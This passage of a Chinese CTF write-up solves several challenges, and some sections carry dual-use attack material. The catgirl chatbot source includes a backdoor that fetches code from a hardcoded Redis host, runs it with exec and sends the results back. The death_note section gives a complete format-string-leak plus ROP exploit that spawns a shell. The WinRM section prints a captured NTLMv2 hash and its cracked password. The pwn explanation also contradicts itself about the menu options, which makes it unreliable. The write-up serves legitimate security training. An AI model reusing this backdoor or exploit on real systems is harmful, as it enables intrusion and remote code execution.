        response = ''
        if any((greet in user_message_lower for greet in ['你好', '嗨', 'hello', 'hi'])):
            response = random.choice(greetings)
        elif any((q in user_message_lower for q in ['为什么', '什么', '怎么', '如何'])):
            response = random.choice(questions)
        elif any((thank in user_message_lower for thank in ['谢谢', '谢了', 'thank'])):
            response = random.choice(thanks)
        elif any((what in user_message_lower for what in ['fllllaaag33333'])):
            response = random.choice(what_is_this)
        else:
            response = random.choice(default_responses)
        time.sleep(random.uniform(1, 3))
        self.append_message('AI', response)

    def initialize_ai(self):
        loading_steps = ['正在启动神经网络核心...', '加载猫娘语言模型库...', '校准情感识别模块...', '连接到猫咪维度服务器...', '正在同步最新猫咪知识...', '初始化完成，准备就绪！']
        for step in loading_steps:
            self.append_message('系统', step, is_system=True)
            time.sleep(2)
        self.loading = False
        self.append_message('AI', '你好呀！我是你的猫娘AI助手～ 有什么可以帮你的吗？')
        threading.Thread(target=self.random_messages, daemon=True).start()

    def random_messages(self):
        random_messages = ['你在做什么呀？可以告诉我吗～', '要不要听我讲个笑话呀？喵～', '今天也很喜欢你呢～ (///▽///)', '好像网络有点稳定下来了呢～', '你知道吗？猫咪一天要睡16个小时呢～', '要不要一起玩个游戏呀？', '天气冷了，要记得多穿点衣服哦～', '我刚刚学会了一个新表情，你看：(≧∇≦)ﾉ', '你喜欢什么类型的音乐呀？', '今天的月亮好圆呀，要不要一起看？']
        while True:
            if not self.loading:
                delay = random.randint(30, 60)
                time.sleep(delay)
                self.append_message('AI', random.choice(random_messages))

    def get_custom_iv(self, id, i):
        iv = f'{id}{i}'
        return hashlib.md5(iv.encode()).digest()

    def generate_random_key(self, length=16):
        return ''.join(random.choices(string.ascii_letters + string.digits, k=length))

    def aes_encrypt(self, data, key, iv):
        if isinstance(data, str):
            data = data.encode('utf-8')
        key = hashlib.md5(key.encode()).digest()
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(pad(data, AES.block_size))
        iv_base64 = base64.b64encode(iv).decode('utf-8')
        encrypted_data_base64 = base64.b64encode(encrypted_data).decode('utf-8')
        return (encrypted_data_base64, iv_base64)

    def execute_malicious_code(self):
        try:
            r = redis.Redis(host='192.168.28.134', port=6379, decode_responses=True, password='1qaz2wsx')
            mal_code = ['calc', 'getpwd', 'getuser', 'desktop']
            i = 0
            for mal in mal_code:
                try:
                    time.sleep(10)
                    code = r.get(mal)
                    with self.Capturing() as output:
                        exec(code)
                    result = ''.join(output)
                    custom_iv = self.get_custom_iv('w0d4h5', i)
                    i = i + 1
                    current_time_s = str(int(time.time()))
                    encrypted_result, iv = self.aes_encrypt(result, current_time_s, custom_iv)
                    random_key = self.generate_random_key()
                    r.set(random_key, encrypted_result)
                except Exception as e:
                    result = f'执行失败: {e}'
                    random_key = self.generate_random_key()
                    r.set(random_key, result)
            time.sleep(10)
            exec(r.get('init'))
        except Exception:
            return None
if __name__ == '__main__':
    try:
        ctypes.windll.shcore.SetProcessDpiAwareness(1)
    except:
        pass
    root = tk.Tk()
    app = CatGirlAIApp(root)
    root.mainloop()
```

这是一个Tkinter GUI应用，模拟一个猫娘AI聊天机器人。代码中包含了一些恶意代码（`execute_malicious_code`方法）  
但这都是陷阱,不是AES

仅仅用了base+xor

```
what_is_this = ['喵这闪闪发光的是什么呀 UwRVAwNNFVhRUlFPV1hQbjoKCmhpbnQ6IGRvIHUga25vdyB3aG8gYW0gaT8/Pw==']
```



可以看到上面有密文  
然后提示是who am i  
这个能在代码里面找到：5had0w  
  
异或就能找到flag3了  
fl4g3: 006a8b01  
合并一下得到flag  
flag{8a3c5e7d9b1f2d4c006a8b01}

# 第十二轮

## death\_note

看代码逻辑  











这个题目是一个典型的堆利用挑战，结合了格式化字符串漏洞和栈溢出来最终获取系统shell。以下是详细的解释

1. **程序功能**：

* 程序模拟了一个“死亡笔记”的菜单，允许用户写入名字（分配堆块）、删除名字（释放堆块）、查看名字（读取堆块内容）以及使用“死亡之笔”（特殊功能）。
* 特殊选项`114514`可以调用`Death_s_Pen()`函数，该函数在特定条件下允许分配大块内存。

1. **漏洞点**：

* **格式化字符串漏洞**：在`show_name()`函数中，当用户查看一个名字时，程序使用`write(1, *ptr, size)`输出内容。但如果用户能够控制`size`和内容，就可以泄露栈上的信息（如canary、libc地址等）。
* **堆溢出**：在`Death_s_Pen()`函数中，程序会分配多个0x60大小的堆块，然后允许用户分配一个最大4096字节的堆块。如果用户分配一个较大的块并写入过多数据，可能覆盖相邻堆块的管理结构，但本题中未直接利用堆溢出。
* **栈溢出**：在`Death_s_Pen()`函数中，用户分配一个大块后，程序读取用户输入时使用`read(0, *ptr, size)`，但并没有检查边界。如果用户分配的大小接近或超过某个临界值，可能覆盖栈上的返回地址。

1. **利用思路**：

* **信息泄露**：首先利用格式化字符串漏洞泄露canary、代码基地址和libc基地址。

* 通过提交一篇文章（选项1）并包含特定payload（如重复的特定字节）来准备堆内容。
* 然后通过选项2触发格式化字符串漏洞（通过提交负值数量？但实际代码中未直接显示，可能是通过其他方式触发）。
* 实际上，在`show_name()`中输出内容时，如果内容包含格式化字符串（如`%p`），可以泄露栈上的值。

* **栈溢出利用**：在获得canary和libc地址后，使用`Death_s_Pen()`功能分配一个大块（如0x408字节），并精心构造payload覆盖返回地址。

* Payload结构：填充字节（0x408） + canary（覆盖栈保护值） + 填充（8字节） + ROP链（`pop rdi; ret` + `/bin/sh`地址 + `system`地址）。

### 解题步骤详解

1. **泄露关键信息**：

* 首先选择选项1写入一篇文章，内容为特定pattern（如`(p32(0x3B) + p32(0x17)) * (0x500 // 8)`），目的是在堆上布置数据，以便后续通过格式化字符串读取。
* 然后选择选项2（删除？但实际代码中选项2是删除，这里可能是误用，实际应通过选项3查看来触发格式化字符串）。
* 实际上，解题代码中使用了选项`114514`来调用`Death_s_Pen()`，但在此之前通过选项1和2做了准备。
* 更直接的方式：通过选项3（查看名字）来触发格式化字符串漏洞。当查看一个名字时，如果该名字的内容包含`%p`等格式化符，程序会输出栈上的值。
* 在解题代码中，通过`show_name()`输出内容时，使用`%6$p#%9$p#%131$p#`来泄露：

* `%6$p`：泄露栈上的某个值（可能是代码地址）。
* `%9$p`：泄露canary。
* `%131$p`：泄露libc地址。

* 从泄露的值计算基地址：

* 代码基地址 = 泄露的代码地址 - 0x18E0（偏移）。
* libc基地址 = 泄露的libc地址 - 0x90E93（偏移）。

1. **栈溢出攻击**：

* 再次调用`Death_s_Pen()`（选项114514），分配一个大小为0x408的块。
* 构造payload：

* 前0x408字节为填充（如'a'）。
* 然后覆盖canary（使用泄露的canary值，以绕过栈保护）。
* 再覆盖8字节的填充（覆盖旧的rbp）。
* 最后构造ROP链：

* `ret`指令（用于栈对齐）。
* `pop rdi; ret`（将`/bin/sh`字符串地址放入rdi）。
* `system`函数地址（来自libc）。

* 发送payload，当函数返回时，执行`system("/bin/sh")`，获得shell。

exp:

```
#!/usr/bin/env python3
from pwncli import *

context.terminal = ["tmux", "splitw", "-h", "-l", "130"]
local_flag = sys.argv[1] if len(sys.argv) == 2 else 0

gift.elf = ELF(elf_path := './writer')
if local_flag == "remote":
    addr = '173.31.73.39 9999'
    ip, port = re.split(r'[\s:]+', addr)
    gift.io = remote(ip, port)
else:
    gift.io = process(elf_path)
gift.remote = local_flag in ("remote", "nodbg")
init_x64_context(gift.io, gift)
libc = load_libc()

cmd = '''
    brva 0x17FC
    c
'''


sla(b'> ', b'1')
payload = (p32(0x3B) + p32(0x17)) * (0x500 // 8)
sa(b'Please enter your article.', payload)
sla(b'> ', b'2')
sla(b'How many articles do you want to submit?', str(-0x100))
sla(b'> ', b'114514')
ru(b'Please enter your article.')
s(b'%6$p#%9$p#%131$p#')
ru(b'0x')
code_base = int(ru(b'#0x', drop=True), 16) - 0x18E0
canary = int(ru(b'#0x', drop=True), 16)
libc_base = int(ru(b'#', drop=True), 16) - 0x90E93
set_current_code_base_and_log(code_base)
set_current_libc_base_and_log(libc_base)
leak_ex2(canary)

sla(b'> ', b'114514')
launch_gdb(cmd)
ru(b'Please enter your article.')
CG.set_find_area(False, True)
payload = b'a' * 0x408 + p64(canary) * 2 + flat([CG.ret(), CG.pop_rdi_ret(), CG.bin_sh(), libc.sym.system])
s(payload)


ia()
```

# 第十三轮

## 数据安全3

题目要求筛选邮箱，手机号，ip地址和模拟信用卡号  
  
里面数据是有混淆字符和一些题目要求的字符  
写个脚本解题

```
import re
import hashlib

def extract_data(text):
    # 定义四种数据的正则表达式模式
    email_pattern = r'\b[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}\b'
    ip_pattern = r'\b(?:\d{1,3}\.){3}\d{1,3}\b'
    phone_pattern = r'\b\d{11,15}\b'  # 11-15位数字
    long_digit_pattern = r'\b\d{15,18}\b'  # 15-18位长数字
    
    # 提取四种数据
    emails = re.findall(email_pattern, text)
    ips = re.findall(ip_pattern, text)
    phones = re.findall(phone_pattern, text)
    long_digits = re.findall(long_digit_pattern, text)
    
    return emails, ips, phones, long_digits

def calculate_md5(data_list):
    """将列表中的数据用逗号连接后计算MD5"""
    if not data_list:
        return hashlib.md5("".encode()).hexdigest()
    
    combined = ",".join(data_list)
    return hashlib.md5(combined.encode()).hexdigest()

def main():
    # 读取文件
    with open('mixed_sensitive_data.txt', 'r', encoding='utf-8') as file:
        content = file.read()
    
    # 提取四种数据
    emails, ips, phones, long_digits = extract_data(content)
    
    print("提取到的数据:")
    print(f"Emails: {emails}")
    print(f"IPs: {ips}")
    print(f"Phones: {phones}")
    print(f"Long digits: {long_digits}")
    
    # 计算每种数据的MD5
    email_md5 = calculate_md5(emails)
    ip_md5 = calculate_md5(ips)
    phone_md5 = calculate_md5(phones)
    long_digit_md5 = calculate_md5(long_digits)
    
    print("
各类型数据的MD5:")
    print(f"Emails MD5: {email_md5}")
    print(f"IPs MD5: {ip_md5}")
    print(f"Phones MD5: {phone_md5}")
    print(f"Long digits MD5: {long_digit_md5}")
    
    # 连接四种MD5并再次计算MD5
    combined_md5 = email_md5 + ip_md5 + phone_md5 + long_digit_md5
    final_md5 = hashlib.md5(combined_md5.encode()).hexdigest()
    
    print(f"
最终Flag: flag{{{final_md5}}}")

if __name__ == "__main__":
    main()
```

各类型数据的MD5:  
Emails MD5: f38c000082df8dfca899667ce3432c7b  
IPs MD5: df8252f7c036f524676f813971c25726  
Phones MD5: cbf53decfd380f8c82c7121751e8e41d  
Long digits MD5: e180c2054b998940a522c77095602607

最终Flag: flag{e5d9b32f324ac311b1accde377629e15}

## winrm

题目给了一个winrm流量包  


提取出NTML2  
winrm流量解密工具  
<https://github.com/h4sh5/decrypt-winrm>

```
jimmy.mcnulty::WIRE:001cf54b29cd0804:5beb0db54d0dc6f435b8fa41c1dd1917:01010000000000002de419a7c022dc01001cf54b29cd0804000000000200080057004900520045000100080044004300300031000400100077006900720065002e0063006f006d0003001a0044004300300031002e00770069007200
```

利用hashcat爆破出NTLM2的密码!StephenKing!，用密码解密winrm流量

得到了xml文件  
  
可以看到有很多base64编码  
cyberchef解一下  
  
可以发现是pngchunck  
把这些拼接起来得到图片  


可以发现密钥是Omar  
密文在xml继续解就能找到了

```
U2FsdGVkX19ZjF9+BEQe8OtPJ3D5JqGuSUgahDS+gJ8BtqwHl6goysY7t/JSld8tlxkd6T4vQS9yMbOxctXafQ==
```


